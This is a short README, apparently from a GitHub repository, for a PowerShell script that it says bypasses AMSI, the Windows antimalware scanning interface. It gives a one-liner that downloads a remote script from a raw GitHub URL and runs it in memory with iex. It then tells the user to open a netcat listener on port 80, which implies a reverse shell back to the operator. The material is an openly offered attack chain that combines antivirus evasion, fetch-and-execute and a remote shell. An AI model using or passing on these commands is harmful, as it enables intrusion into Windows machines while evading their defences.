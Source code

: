 ## Basic Usage
This is a powershell script that bypass amsi :)

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obtest/master/script.ps1')
```

set up a listerner 
nc -lvnp 80

Remember to stop any service running on port 80
